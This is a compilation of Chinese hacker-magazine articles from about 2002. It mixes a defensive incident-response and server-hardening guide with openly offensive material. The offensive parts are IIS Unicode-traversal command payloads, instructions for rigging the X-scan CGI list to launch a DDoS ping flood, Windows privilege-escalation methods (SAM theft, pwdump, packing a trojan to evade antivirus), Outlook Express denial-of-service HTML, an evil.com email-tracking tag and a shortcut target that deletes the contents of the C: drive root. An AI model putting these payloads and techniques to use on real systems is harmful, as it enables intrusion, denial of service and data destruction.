入侵者可能会留下后门并由“cron”或“at”来执行它。即使你后来在别的程序做了连线位置的限定，入侵者依旧可以通过这个后门回到系统中。另外，我们也要检查那些被“cron”或“at”执行的程序属性，要避免任何人都能写入并修改它们。

## 5）检查被修改的数据

入侵者经常会修改系统中的数据。所以建议你对 Web 页面文件、FTP 存档文件、用户目录下的文件以及其他的文件进行校验。

- 2、检查入侵者留下的工具和数据

入侵者通常会在系统中安装一些工具，以便继续监视被侵入的系统。入侵者一般会在系统中留下如下种类的文件：

## 1）网络嗅探器

网络嗅探器就是监视和记录网络行动的一种工具程序。入侵者通常会使用网络嗅探器获得在网络上以明文进行传输的用户名和密码，而嗅探器在 UNIX 系统中更为常见。

## 2）特洛伊木马程序

特洛伊木马程序能够在表面上执行某种功能，而实际上执行另外的功能。因此，入侵者可以使用特洛伊木马程序隐藏自己的行为，获得用户名和密码数据，建立后门以便将来再次访问此被侵入系统。

## 3）后门

后门程序可将自己隐藏在被侵入的系统，入侵者通过它就能够不通过正常的系统验证，不必使用安全缺陷攻击程序就可以进入系统。

## 4）安全缺陷攻击程序

系统运行存在安全缺陷的软件是其被侵入的一个主要原因。入侵者经常会使用一些针对已知安全缺陷的攻击工具，以此获得对系统的非法访问权限。这些工具通常会留在系统中，保存在一个隐藏的目录中。

## 5）入侵者使用的其他工具

以上所列无法包括全部的入侵工具，攻击者在系统中可能还会留下其他入侵工具。这些工具包括：

- 系统安全缺陷探测工具；
- 对其他站点发起大规模探测的脚本；
- 发起拒绝服务攻击的工具；
- 使用被侵入主机计算和网络资源的程序。

## 6）入侵工具的输出

你可能会发现入侵工具程序留下的一些日志文件。在这些文件中可能会包含被牵扯的其他 IP 地址；攻击者利用的安全缺陷，以及其他站点的安全缺陷。因此，建议你对系统进行彻底的搜索，找出上面列出的工具及其输出文件。一定要注意：在搜索过程中，要使用没有被攻击者修改过的搜索工具拷贝。

# 3、搜索主要可疑文件和子目录

检查 UNIX 系统 /dev/ 目录以外的 ASCII 文件。一些特洛伊木马二进制文件使用的配置文件通常在 /dev 目录中。

仔细检查系统中的隐藏文件和隐藏目录。如果入侵者在系统中建立一个新的账户，那么这个新账户的起始目录以及它使用的文件可能是隐藏的。

检查一些名字非常奇怪的目录和文件，例如：...（三个点）、..（两个点）以及空白（在 UNIX 系统中）。入侵者通常会在这样的目录中隐藏文件。对于 NT，应该检查那些名字和一些系统文件名非常接近的目录和文件。

# 4、审查系统日志文件

详细地审查你的系统日志文件，你可以了解系统是如何被侵入的，入侵过程中，攻击者执行了哪些操作，以及哪些远程主机访问了你的主机。通过这些信息，你能够对入侵有更加清晰的认识。记住：系统中的任何日志文件都可能被入侵者改动过。

对于 UNIX 系统，你可能需要查看 /etc/syslog.conf 文件确定日志信息文件在哪些位置。NT 通常使用三个日志文件，记录所有的 NT 事件，每个 NT 事件都会被记录到其中的一个文件中，你可以使用 Event Viewer 查看日志文件。其他一些 NT 应用程序可能会把自己的日志放到其他地方，例如 IIS 服务器默认的日志目录是 `c:\winnt\system32\logfiles`。

以下是一个通常使用的 UNIX 系统日志文件列表。由于系统配置的不同，可能你的系统中没有其中的某些文件。

- Messages

Messages 日志文件保存了大量的信息。可以从这个文件中发现异常信息，检查入侵过程中发生了哪些事情。

- Xferlog

如果被侵入系统提供 FTP 服务，xferlog 文件就会记录下所有的 FTP 传输。这些信息可以帮助你确定入侵者向你的系统上载了哪些工具，以及从系统下载了哪些东西。

- Utmp

保存当前登录每个用户的信息，使用二进制格式。这个文件只能确定当前哪些用户登录。使用 who 命令可以读出其中的信息。

- Wtmp

每次用户成功的登录、退出以及系统重启，都会在 wtmp 文件中留下记录。这个文件也使用二进制格式，你需要使用工具程序从中获取有用的信息。last 就是一个这样的工具。它输出一个表，包括用户名、登录时间、发起连接的主机名等信息，详细用法可以使用 `man last` 查询。检查在这个文件中记录的可疑连接，可以帮助你确定牵扯到这起入侵事件的主机，找出系统中哪些账户可能被侵入了。

- Secure

某些版本的 UNIX 系统会将 tcp_wrappers 信息记录到 secure 文件中。如果系统的 inetd 服务使用 tcp_wrappers，每当有连接请求超出了 inetd 提供的服务范围，它就会在这个文件中增加一条日志信息。通过检查这个日志文件，可以发现一些非常规服务请求，或者从陌生的主机发起的连接。审查日志，最基本的一条就是检查异常现象。

# 5、检查网络嗅探器

入侵者侵入一个 UNIX 系统后，为了获得用户名和密码信息，一般会在系统上安装一个网络监视程序，这种程序叫作嗅探器或者数据包嗅探器。对于 NT，入侵者会使用远程管理程序实现上述目的。

判断系统是否被安装了嗅探器，首先要看当前是否有进程使你的网络接口处于混杂（Promiscuous）模式下。如果任何网络接口处于 promiscuous 模式下，就表示可能系统被安装了网络嗅探器。注意如果你重新启动了系统或者在单用户模式下操作，可能无法检测到 Promiscuous 模式。使用 ifconfig 命令就可以知道系统网络接口是否处于 promiscuous 模式下（注意一定要使用没有被入侵者修改的 ifconfig）：

```text
# /path-of-clean-ifconfig/ifconfig -a
```

有一些工具程序可以帮助你检测系统内的嗅探器程序：

- cpm（Check Promiscuous Mode）- UNIX  
  可以从以下地址下载：ftp://coast.cs.purdue.edu/pub/tools/unix/cpm/

- ifstatus - UNIX  
  可以从以下地址下载：ftp://coast.cs.purdue.edu/pub/tools/unix/ifstatus/

- neped.c  
  可以从以下地址得到：ftp://apostols.org/AposTools/snapshots/neped/neped.c

一定要记住一些合法的网络监视程序和协议分析程序也会把网络接口设置为 promiscuous 模式。检测到网络接口处于 promiscuous 模式下，并不意味着系统中有嗅探器程序正在运行。

但是，在 Phrack 杂志的一篇文章：《Phrack Magazine Volume 8, Issue 53, July 8, 1998, article 10 of 15, Interface Promiscuity Obscurity》中，有人提供了一些针对 FreeBSD、Linux、HP-UX、IRIX 和 Solaris 系统的模块，可以擦除 IFF_PROMISC 标志位，从而使嗅探器避过此类工具的检查。因此，即使使用以上的工具，你没有发现嗅探器，也不能保证攻击者没有在系统中安装嗅探器。

现在，LKM（Loadable Kernel Module，可加载内核模块）的广泛应用，也增加了检测难度。关于这一方面的检测请参考使用 KSAT。

# 黑客研究院

检测可加载内核模块。

还有一个问题应该注意，嗅探器程序的日志文件的大小会急剧增加。使用 df 程序查看文件系统的某个部分的大小是否太大，也可以发现嗅探器程序的蛛丝马迹。建议使用 lsof 程序发现嗅探器程序打开的日志文件和访问报文设备的程序。在此，还要注意，使用的 df 程序也应该是干净的。

一旦在系统中发现了网络嗅探器程序，我们建议你检查嗅探器程序的输出文件以确定哪些主机受到攻击者威胁。被嗅探器程序捕获的报文中目的主机将受到攻击者的威胁，不过如果系统的密码是通过明文传输，或者目标主机和源主机互相信任，那么源主机将受到更大的威胁。

```text
TCP/IP LOG: TM: Tue Nov 15 15:12:29
PATH: not.at.risk.domain.com(1567) => at.risk.domain.com(telnet)
```

使用如下命令可以从嗅探器程序的日志文件中得到受到威胁的主机列表：

```bash
% grep PATH: $sniffer_log_file | awk '{print $4}' |
awk -F\( '{print $1}' | sort -u
```

你可能需要根据实际情况对这个命令进行一些调整。一些嗅探器程序会给日志文件加密，增加了检查的困难。你应该知道不只是嗅探器程序日志文件中出现的主机受到攻击者的威胁，其它的主机也可能受到威胁。

# 6、检查网络上的其它系统

除了已知被侵入的系统外，你还应该对网络上所有的系统进行检查。主要检查和被侵入主机共享网络服务（例如：NIS、NFS）或者通过一些机制（例如：hosts.equiv、.rhosts 文件，或者 Kerberos 服务器）和被侵入主机相互信任的系统。

# 7、检查涉及到的或者受到威胁的远程站点

在审查日志文件、入侵程序的输出文件和系统被侵入以来被修改的和新建立的文件时，要注意哪些主机可能会连接到被侵入的系统。根据经验，那些连接到被侵入的主机，通常已经被侵入了。所以要尽快找出其它可能遭到入侵的系统，通知其管理人员。

# 四、通知相关部门，阻止它继续扩散的监视

## 1、事故报告

入侵者通常会使用被侵入的账户或者主机发动对其它主机的攻击。如果你发现针对其它主机的入侵活动，建议你马上和这些主机管理员联络。告诉他们你发现的入侵征兆，建议他们检查自己的系统是否被侵入，以及如何防护。要尽可能告诉他们所有的细节，包括：日期/时间戳、时区，以及他们需要的信息。

## 2、与安全公司联系

建议你和卷入入侵活动的主机联系时，不要发信给 root 或者 postmaster。因为一旦这些主机已经被侵入，入侵者就可能获得了超级用户的权限，就可能读到或者拦截到 E-mail。

# 五、可以恢复系统了

## 1、安装干净的操作系统版本

一定要记住，如果主机被侵入，系统中的任何东西都可能被攻击者修改过了，包括：内核、二进制可执行文件、数据文件、正在运行的进程以及内存。通常，需要从发布介质上重装操作系统，然后在重新连接到网络上之前，安装所有的安全补丁，只有这样才会使系统不受后门和攻击者的影响。只是找出并修补被攻击者利用的安全缺陷是不够的。

我们建议你使用干净的备份程序备份整个系统。然后重装系统。

## 2、取消不必要的服务

只配置系统要提供的服务，取消那些没有必要的服务。检查并确信其配置文件没有脆弱性，以及该服务是否可靠。通常，最保守的策略是取消所有的服务，只启动你需要的服务。

## 3、安装供应商提供的所有补丁

我们强烈建议你安装所有的安全补丁。要使你的系统能够抵御外来攻击，不被再次侵入，这是最重要的一步。

## 4、谨慎使用备份数据

在从备份中恢复数据时，要确信备份主机没有被侵入。一定要记住，恢复过程可能会重新带来安全缺陷，被入侵者利用。如果你只是恢复用户的 home 目录以及数据文件，记住文件中可能藏有诸如木马程序。你还要注意用户起始目录下的 .rhosts 文件。

## 5、改变密码

在弥补了安全漏洞或者解决了配置问题后，建议你改变系统中所有账户的密码。一定要确信所有账户的密码都不容易被猜到。你可能需要使用供应商提供的或者第三方的工具加强密码的安全。

# 六、加强系统和网络的安全

这段我就不详细说了，都是服务器的安全配置的问题，大家可以参考相关的文档，这里只是大体的步骤和建议。

- 1、基本的安全策略。
- 2、安装安全工具。

在将系统连接到网络上之前，一定要安装所有选择的安全工具。同时，最好使用 Tripwire、aide 等工具对系统文件进行 MD5 校验，把校验码放到安全的地方，以便以后对系统进行检查。

- 3、打补丁。

启动日志（logging）/检查（auditing）/记账（accounting）程序，将它们设置到准确的级别，例如 sendmail 日志应该是 9 级或者更高。经常备份你的日志文件，或者将日志写到另外的机器、一个只能增加的文件系统或者一个安全的日志主机。

- 4、配置防火墙对网络进行防御。

因为一些服务存在一定的漏洞，建议在防火墙上应对以下端口进行过滤。

```text
DNS 53 (TCP)
tftpd 69 (UDP)
SunRPC & NFS:
111 and 2049 (UDP and TCP)
BSD UNIX "r" cmds: 512, 513, and 514 (TCP)
lpd 515 (TCP)
uucpd 540 (TCP)
X windows 6000+ (UDP and TCP)
```

# 七、重新连接到网络

完成以上步骤以后，你就可以把系统连接回网络了。完了后，我们要好好地总结一下，从记录中总结出对于这起事故的教训，这有助于你检讨自己的安全策略。许多组织只有在付出了很大代价以后才会改进自己的安全策略。计算事故的代价有助于让你的组织认识到安全的重要性，而且可以让管理者认识到安全有多么重要。

## 利用 X-scan 发现 DDoS Ping 攻击

X-scan 是一款出色的 CGI 漏洞扫描工具，利用它的帮助可以让我们的攻击达到事半功倍的效果。在介绍 X-scan 之前，我们先来说说两款影响力很大的 DDoS Ping 炸弹工具。

这些命令虽然简单，但由于 ping 命令的使用只需要最低限度的用户权限，而且有 Unicode 漏洞的机器又非常多，这才会导致大量的数据涌向一处，于是攻击效果自然就达到了。

## 一、DDoS Ping 轰击工具

一个是蜗牛炸弹，一个是 AhBomb。

## 1）蜗牛炸弹

蜗牛炸弹出来得很早了，通过对有漏洞的服务器进行搜索并做好储备。需要的时候，可以控制这些有漏洞的服务器集中 Ping 攻击目标机，导致目标网络速度变慢，达到 DDoS 攻击的目的。

AhBomb 是 bigball 开发的一款更强大的攻击工具。


图 1

从本质上说，AhBomb 的实现方法和蜗牛炸弹没有什么区别，但是由于程序编写得很优秀，多线程部分写得特别完善，而且缺省的参数设置很可能会对被攻击者带来致命的打击。

还是分析一下吧！首先从蜗牛炸弹开始谈起。它有一个搜索的过程，搜索 Unicode 漏洞的主机，然后将主机地址保存在 Server.dll 文件中，在需要实施攻击的时候，就调动所有的服务器进行攻击。

我对一个虚拟目标 200.200.200.200 这个 IP 进行攻击，缺省配置下的数据包如图 2：


图 2

```text
Get /scripts/..%c1%1c../winnt/system32/cmd.exe?/c
```

是通过 Unicode 编码调用 Windows 服务器的命令解释器去执行命令。

```text
ping -l 65000 -n 500 200.200.200.200
```

- ping：一个发送测试数据包检测网络状况的命令
- -l 65000：发送包含 65000 字节数据的 ECHO 数据包
- -n 500：发送 500 遍 ECHO 请求数据包
- 200.200.200.200：目标 IP 地址

## 2）AhBomb

我们来看看 AhBomb 又是怎么做的呢？


图 3

```text
Get /scripts/..%%255c..%255cwinnt/system32/cmd.exe?/c
```

该部分是通过 Unicode 编码调用 Windows 服务器的命令解释器去执行命令，是目前比较新的编码方式，所以找到的漏洞服务器的机会应该会更多。

```text
ping 192.168.0.1 -t -i 255
```

- -t：不停地发送 ECHO 数据包，是的，不停
- -i 255：TTL 值设为 255（最大）
- 192.168.0.1：目标 IP（在局域网内测试）

仔细看它的参数和蜗牛炸弹的不同，具体体现在它并没有发送大数据包，而仅仅是发送普通大小的小包。这是因为很多网络设备会过滤大包，标准格式的反而才能真正被发送到目标。作者可谓用心良苦啊！

> 这里附：（TTL：生存时间，指定数据报被路由器丢弃之前允许通过的网段数量。TTL 是由发送主机设置的，以防止数据包不断在 IP 互联网路上永不终止地循环。转发 IP 数据包时，要求路由器至少将 TTL 减小 1。）

## 二、一款经典的扫描工具 X-scan

X-scan，安全焦点的又一力作，我们重点从它的 CGI 扫描功能谈起。选中 Tools 中的 CGI 列表维护功能，可以从图 4 中看出其中列出了从 Windows 到各个版本 Unix 系统可能存在的 CGI 漏洞的列表。

它是如何验证服务器是否存在漏洞？原理是调用命令解释器，执行 dir 命令。

换一种你的思维模式，用一个 Hacker 的思维模式去想，既然调用 dir 命令可以，我们为什么不能调用其它的命令呢？这就是我要说的重点了，如果我把：

```text
/scripts/..%255c..%255cwinnt/system32/cmd.exe?/c+dir
```

替换成：

```text
/scripts/..%255c..%255cwinnt/system32/cmd.exe?/c+ping+-t+-i+255+-w+5+192.168.0.1
```

为了不被网络设备过滤掉，所以不发送大数据包。为了能够让我们的数据包达到目标，我们设置 TTL 值为 255，-w 5 参数指定超时间隔为 5 毫秒，不管对方返回信息是什么，不停地发。这对一些过滤 ICMP 包的服务器还是很管用的。

打开 cgi.lst 文件，手工编辑其中的内容。经过测试，目前打了 SP2 以后仍然会有编码漏洞的就是 IIS-DECODE 二次编码漏洞了。我保留了两个最有可能的方式库，整理如图 5 所示。

```text
测试的目标 IP 为：192.168.0.1
```


打开 Tools 中的“CGI 列表维护”，选择新的修改后的列表，如图 6 所示。


到这里，我们只要通过 X-scan 去大规模地扫描 CGI 漏洞，就可以实施对目标服务器的 DDoS Ping 攻击了。

其实我们可以用任何一个平台下的 CGI 扫描工具，只要稍作修改，都可以实现我们的目的。

用 X-scan 做讲解，是因为它的出色，以及它在扫描 CGI 漏洞的时候是支持代理服务器连接的。


攻击者在获得系统一定的访问权限后，通常要把自己的权限提升到管理员组，这样攻击者就控制了该计算机系统。这主要有以下几种方法：

- 1. 获得管理员密码，下次就可以用该密码进入系统；
- 2. 先新建一个用户，然后把这个普通用户添加到管理员组，或者干脆直接把一个不起眼的用户如 guest 添加到管理员组；
- 3. 安装后门。

本文简要介绍在 Windows NT4 和 Windows 2000 里攻击者常用的提升权限的方法。下面是具体方法：

**方法1：** 下载系统的 `%windir%\repair\sam.*`（WinNT 4 下是 sam._，而 Windows 2000 下是 sam）文件，然后用 L0pht 等软件进行破解，只要能拿到，肯花时间，就一定可以破解。

问题：1、攻击者不一定可以访问该文件（看攻击者的身份和管理员的设置）；2、这个文件是上次系统备份时的账号列表（也可能是第一次系统安装时的），以后更改账号口令的话，就没用了。

**方法2：** 使用 pwdump（L0pht 自带的，Windows 2000 下无效）或者 pwdump2，取得系统当前的用户列表和口令加密列表，然后用 L0pht 破解这个列表。

问题：普通用户不能成功运行 pwdump 类程序（没有权限），例如：使用 Unicode 漏洞进入系统时是 IUSR_computer 身份，该用户一般只属于 Guests 组，运行 pwdump 类程序就会失败。

以上两种方法在离线情况下进行的。

**方法3：** 使用 Enum 等程序进行远程破解，猜口令。Enum 可以使用指定的字典对远程主机的某个用户进行破解。

问题：1、如果系统设置了账号锁定的话，破解几次失败，该账号就锁定了，暂时不能再破解；2、要远程系统开放 NetBIOS 连接，就是 TCP 的 139 端口，如果用防火墙过滤了的话，Enum 就无法连接到主机。

以上方法是通过破解获得密码的，还有直接把当前用户提升权限或者添加用户到管理员组的方法。

**方法4：** GetAdmin（WinNT 4 下）、PipeUpAdmin（Windows 2000 下），在本机运行可以把当前用户账号加入管理员组。而 PipeUpAdmin 则比较厉害，普通用户和 Guests 组用户都可以成功运行。

问题：GetAdmin 在 SP4 有补丁修复了，不能用于高于 SP4 的 WinNT 4 系统。当然后来又有 GetAdmin 的增强版本，不过在 SP6a 下好像都不能成功运行。

注：这一方法利用了 WinNT 4 系统的安全漏洞，可以安装补丁解决这一问题。（此外还有变通的方法。）

**方法5：** 在 WinNT 4 和 Windows 2000 注册表里指定用户 Shell 程序（Explorer.exe）时，没有使用绝对路径，而是使用了一个相对路径的文件名（考虑到兼容性问题）。由于在系统启动时程序的搜索顺序问题，使得 `%SystemDrive%\Explorer.exe`（操作系统安装的根目录下的 Explorer.exe）程序执行，这提供了攻击者一个机会，在用户下次登录时执行他自己的程序。

漏洞，可以安装补丁解决这种问题。

**方法6：** 上传木马，然后运行木马，系统重启后，木马就是本地登录用户的身份了，然后攻击者连接后就有了本地登录用户的权限。因为一般总是管理员具有本地登录系统，因此这样很可能就获得了管理员的权限。

- 1. 杀毒软件或病毒防火墙可能阻止木马运行，还有可能把木马杀死。
- 2. 有的木马不能在 Guests 组身份下运行，这可能与它添加自动运行的方式有关；如没有权限改写注册表的自动运行位置，不能写入 `%system%\system32` 目录（一般的木马都改变文件名，然后写入系统目录，如果没有写入权限系统目录，就不能成功执行木马）。

解决：不过也有用压缩程序（不是通常说的压缩程序，这种压缩程序把可执行程序压缩后，文件变小了，但是仍然可以正常执行）将木马压缩，从而逃过杀毒软件的特征码检测。我曾使用 Aspack 成功压缩了一个木马，逃过了金山毒霸正版的检测。不过也有的木马 Aspack 压缩不了，如冰河。

**方法7：** Gina、GinaStub 木马。虽然这个也叫木马，但是它的功能和上边的那种木马不同，因为一般的木马是在对方安装一个 server 端，一旦运行就可以使用 client 端连接到 server 端，并进行操作。而 GinaStub 一般只有一个动态连接库文件，需要手工安装和卸载，它的功能也不是使用 client 端控制 server 端，它仅仅就是捕获用户的登录密码。

问题：安装较麻烦，成功的可能性低，而且安装不当会造成被安装的系统不能启动。

注：这一方法利用的不是系统的安全漏洞，因此不能通过安装补丁解决这一问题。

**方法8：** 本地溢出。缓冲区溢出是进行攻击的最好办法，因为一般都可以获得系统权限或者管理员权限；不过很多远程溢出攻击不需要事先有执行程序的权限，而本地溢出就恰好适合提升权限。

Win NT4 的 IIS4 的 ASP 扩展有一个本地溢出漏洞，Windows 2000 的静态图像服务也有一个溢出漏洞，利用该漏洞，攻击者可以获得系统权限。当然 Windows NT 和 Windows 2000 还有很多程序有溢出漏洞，只是这些程序不是总在运行，因此被利用的可能性比较小。

问题：1、ASP 扩展的溢出漏洞需要攻击者有向网站的脚本目录的写权限，才能把攻击程序放到网站上，然后执行。2、静态图像服务缺省没有安装，只有用户在 Windows 2000 上安装静态图像设备（如数码相机、扫描仪等）时才自动安装。

注：这一方法利用了 WinNT 4/Windows 2000 系统的安全漏洞，可以安装补丁解决这种问题。

## Windows 2000 专用提升漏洞方法

**方法1：** Windows 2000 的输入法漏洞，利用这个漏洞任何人可以以 LocalSystem 身份执行程序，从而可以用来提升权限，不过该漏洞一般限于物理接触 Windows 2000 计算机的人。当然如果开放了终端服务的话，攻击者也可以远程利用该漏洞。

注：这一方法利用了 Windows 2000 系统的安全漏洞，可以安装补丁解决这一问题。

**方法2：** 利用 Windows 2000 的 Network DDE DSDM 服务漏洞，普通用户可以以 LocalSystem 身份执行任意程序，可以借此更改密码、添加用户等。Guests 组用户也可以成功利用该漏洞。

问题：这个服务缺省没有启动，需要启动这个服务。

注：这一方法利用了 Windows 2000 系统的安全漏洞，可以安装补丁解决这一问题。

**方法3：** Windows 2000 的 TELNET 服务进程建立时，该服务会创建一个命名管道，并用它来执行命令。但是，该管道的名字能被预见。如果 TELNET 发现一个已存在的管道名，它将直接用它。攻击者利用此漏洞，能预先建立一个管道名，当下一次 TELNET 创建服务进程时，便会在本地 SYSTEM 环境中运行攻击者代码。

注：这一方法利用了 Windows 2000 系统的安全漏洞，可以安装补丁解决这一问题。

**方法4：** Windows 2K 存在一个利用 Debug Registers 提升权限的漏洞。如果攻击者能在 Win2K 中运行程序，利用此漏洞，他至少能取得对 `%Windir%\SYSTEM32` 和注册表 HKCR 的写权限。因为 x86 Debug Registers DR0—7 对于所有进程都是全局共享的，因此在一个进程中设置硬件断点，将影响其它进程和服务程序。

注：这一方法利用了 Windows 2000 系统的安全漏洞，目前已经有漏洞攻击程序出现了，因此只能堵住攻击者的入口来阻止利用该漏洞。


```text
Connected to xx.
Escape character is '^]'.

Red Hat Linux release 7.1 (Seawolf)
Kernel 2.4.2-2 on an i686
login:
```

测试的服务器：redhat7.0、redhat7.1、mandrake7.1

本文主要讨论 Linux 服务器的伪装，对于 Sun、HP 等可以查找相关资料，本文只提供思路。

前言：为什么要伪装？

服务器伪装，目的是要使攻击者很难搜集到服务器真正的信息，使他的进一步攻击造成难度，进而起到一定的保护作用，当然还有更深的用法，等着你去发现。

## 1. Telnet 信息伪装

首先看一次 telnet 过程：

```bash
[yxg@localhost yxg]$ telnet xx.xx.xx.xx
Trying xx.xx.xx.xx...
```

从中可以看到操作系统为 Red Hat Linux release 7.1，内核版本 2.4.2-2，计算机为：intel686。攻击者得到这些信息就可以用相应的攻击程序，所以我们不能告诉他们真正的情况。

telnet 信息存放于 `/etc/issue.net`

```bash
[root@database /etc]# cat issue.net
Red Hat Linux release 7.1 (Seawolf)
Kernel 2.4.2-2 on an i686
```

修改成为你想要的任何字符，甚至什么也不要。

我的改为 Sun 的提示：

```bash
[yxg@localhost yxg]$ cat /etc/issue.net
SunOS 8.0
```## 黑客X档案2002-2003年合订本

# 黑客研究院

要注意必要的空行，改完后和伪装的对象比较，直到一模一样才行。对于本机的用户，提示信息在 `/etc/issue`，改不改随你。

注意：如果你想重启后 `issue.net` 内容不变，修改 `/etc/rc.local`，在这些行前加“#”。

```bash
# This will overwrite /etc/issue at every boot. So,
# make any changes you
# want to make to /etc/issue here or you will lose
# them when you reboot.
# echo "" > /etc/issue
# echo "$R" >> /etc/issue
# echo "Kernel $(uname -r) on a $a $SMP$(uname -m)" >> /etc/issue
# cp -f /etc/issue /etc/issue.net
# echo >> /etc/issue
```

### 2. FTP 信息伪装

现在有很多对于 wu-ftpd 的攻击程序，所以我就拿 wu-ftpd 作例子。

先看一下 FTP 的过程：

```text
[yxg@localhost yxg]$ ftp xx.xx.xx.xx
Connected to xxxx.
220:database FTP server (Version wu-2.6.1-16) ready.
```

如果想要不显示出 wu-ftpd，可以有多种方法。其一：查看 `in.ftpd` 就能发现版本号写在程序中。

```bash
[root@database /root]# strings /usr/sbin/in.ftpd
...
/var/log/lastlog
Could not write %.100s, %.100s
Version wu-2.6.1-16
```

你可以用十六进制编辑器修改版本的字符串，改为 proftpd 什么的，保准有人会上当。

其二：`/etc/ftpaccess` 里有两个参数：

- 指示参数：`greeting full | brief | terse`
- `greeting text`
- 允许控制远程用户登录进来以后，给用户多少信息及信息内容。
- `banner`
- `banner` 消息是在用户名和密码前显示给用户。

### 3. 修改 Telnet 和 FTP 的默认端口号

有很多扫描器并不是逐个端口扫描的，所以来个乾坤大挪移就可使扫描失效。

具体是修改 `/etc/services` 或者是 `/etc/inetd.conf`。

## 4. 操作系统指纹伪装

nmap 等扫描器能通过操作系统指纹判断操作系统类型，所以我们要采取一些策略保护自己。现在有一些工具可以修改操作系统指纹，像 fpf 等，fpf 可以在 www.xfocus.org 下载，它是一个 LKM，加载到内核中，可以模拟很多操作系统。当然你可能要对源程序进行修改，也可以加入一些新的功能，如自动隐藏等。

### 5. 改装 uname

如果不幸被一个攻击者闯入，它可以用 `uname` 来获取真正的操作系统信息，然后来个本地溢出，你就哭吧！所以我们要修改 `uname` 的源程序，使它显示我们想要它显示的内容。

打开 `uname.c`，找到如下行：

```c
print_element (PRINT_SYSNAME, name.sysname);   // 操作系统名如 linux
print_element (PRINT_NODENAME, name.nodename); // 主机名
print_element (PRINT_RELEASE, name.release);   // 发行版本，如：2.2.16-22
print_element (PRINT_VERSION, name.version);
print_element (PRINT_MACHINE, name.machine);   // 机器类型，如 i686
print_element (PRINT_PROCESSOR, processor);    // 处理器类型
```

知道怎么改吧，不知道？提示一下，如果要显示操作系统为 SunOS，替换第一行为：

```c
print_element(PRINT_SYSNAME, "SunOS");
```

编译后，运行 `./uname -s`，就会显示 SunOS。当然应该把每一项都进行修改，使人看不出破绽。最后把改好的 `uname` 拷到 `/bin` 目录。我还修改时添加了一个 `-V` 的参数，目的是显示真正信息，给自己看的。默认时显示修改过的信息。

## 6. 其它一些杂项

建议你尽量关掉不必要的服务，对于开放的其他服务要仔细检查，使它不至于有泄密的信息。

不同操作系统的 shell 提示符也不太一样，尽量修改得和伪装目标一致。

当然，要想保证服务器安全，这一点是远远不够的，它只能减小被攻击成功的概率。

如果更深一些，伪装成一个蜜罐子，来诱捕黑客，则不在本文的讨论范围之内。

# 如何冲破鼠标右键的限制

我们在网上冲浪的时候，经常会遇到这样的情况：当我们想单击右键打开一个新页面或者调用相关函数时，微软做的的确，一个对话框提示说某些广告或者告诉你该把本站加入收藏夹。如果这样的情况一两次也就算了，但是如果经常遇到呢？所以我们要想办法冲破右键的限制。经过搜索，我找到了几个方法，你可以按我说的试一下。

方法一是先点右键，跳出对话框，提示消息或广告。这时候按住右键，用左键点击确定按钮，放开左键，再放开右键，这时候是不是看到熟悉的右键弹出菜单了呢？还有一种方法，就是按住 Shift 键，然后单击右键，出现熟悉的右键菜单。

方法二比较通用，那就是查看源文件，通过源文件中的链接来实现和点击右键相同的功能。查看源文件的方法很多，一种是通过浏览器的“查看→源文件”实现。还有一种就是先按一下 Windows 的快捷键，然后在菜单中选择“查看源文件”即可。这个快捷键在右 Ctrl 的左边。

对于要求加入收藏夹的情况，一种方法是利用查看源文件的方法。另一种方法如下：在目标链接上点击鼠标右键，出现添加到收藏夹的窗口，这时不要松开右键，也不要移动鼠标，使用键盘的 TAB 键，移动焦点到取消按钮上，按下空格键，窗口消失；松开右键，出现熟悉的菜单。

## Outlook Express 拒收特制邮件引起的拒绝服务攻击

在所有的 Windows 版本里都会给一些特殊的设备预留特殊的文件名，比如：prn、aux、nul 等等，这些都被称为 DOS 设备。特殊设备后面可以跟着任何的目录名或后缀，比如：`c:\temp\prn.tmp` 就是指向 prn 设备。指向特殊设备和一般文件所用的 API 是一样的，没有经过授权地对设备进行操作会带来重大的安全隐患，比如：拒绝服务攻击会引起正在运行的程序出错或硬件出错，以及危及到数据的安全。

现在发现如果在使用的 HTML 标签时加上特殊的设备名，不论安全级别设置如何，这都将会使 Outlook Express 或 IE 受到拒绝服务攻击。对于 Outlook Express 来说，带有攻击信件的文件夹就只有将它删除，没有别的方法可以恢复。另外，使用 “IFRAME” 标签可以向特殊设备发出任何的数据。

还有一个问题，不论安全级别如何设置，“BGSOUND” 还是会无条件下载它里面所指定的文件。这样攻击者就有可能利用受害者的 Email 进行来访跟踪。比如：
`bgsound src="http://evil.com/registerme?email=victim@com.com"`

```html
<META content="MSHTML 6.00.2715.400" name=GENERATOR>
<STYLE></STYLE>
</HEAD>
<BODY bgColor=#e3eefb>
<bgsound src="c:\prn" loop=infinity>
<DIV>&nbsp;</DIV></BODY></HTML>
```

## 2、利用漏洞向打印机直接输出文字

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<HTML><HEAD>
<META http-equiv=Content-Type content="text/html; charset=koi8-r">
<META content="MSHTML 6.00.2715.400" name=GENERATOR>
<STYLE></STYLE>
</HEAD>
<BODY bgColor=#e3eefb>
<iframe src="cid:em01=zaraza" width=0 height=0>
<DIV>&nbsp;</DIV></BODY></HTML>
<P><HR></P>Hello there This is self-printing Outlook Express message <BR>
```

对以上两种攻击方法目前还没有找到有效的解决方案，但是还是建议大家要时刻注意这个问题，关注 Microsoft 对 IE 的升级补丁并采取适当的过滤以阻止外部的攻击。

# 漏洞文件的超强隐患

像 Html、Htm、Bat 这样的文件我们都经常使用，然而往往就是这些常用文件成了危害用户的非法手段。试想想，有谁会想到链接快捷方式中也暗藏杀机呢？若你不信，请仔细看看下文。

有几种文件是要非常小心的，但如果是你自己专用而又不上网的机子，那你大可不看。由于本人能力有限，只分析四种常用文件类型。危险文件有木马服务器，也有病毒文件，但我的枪口不对它们，我要瞄准另一群“熟人”，日久见人心啊！

## 一、快捷方式

快捷方式也恐怖哦！比如惹毛了一个老实的人，那将不堪设想。经常新建快捷方式的朋友肯定知道“目标”这一栏，或者查看已有的快捷方式的属性，也有“目标”这栏。既然可以在“目标”这栏调用相应的程序，那么调用 format 或 delete 命令加几个参数会如何呢？在“目标”里填入：

```text
c:\windows\command\delete /y c:\*.*
```

那么，你 C 盘根目录的东西就魂飞魄散了。理论上可以调用任何应用程序，指向 DOS、指向文档、指向帮助文件，输入法漏洞可以新建 NET 文件快捷方式，在“目标”里填入相关命令便可以取得管理员权限。这具体不说，因为不在本文讨论范围内。请参照“X 档案”第二期的相关文章。

防护方法：将 `Windows\command\format` 或 `delete` 等有毁灭性命令文件改名。对于来路不明的快捷方式最好先查看属性中的“目标”再决定是否运行。

### 二、HTML 变种或 HTM 文档

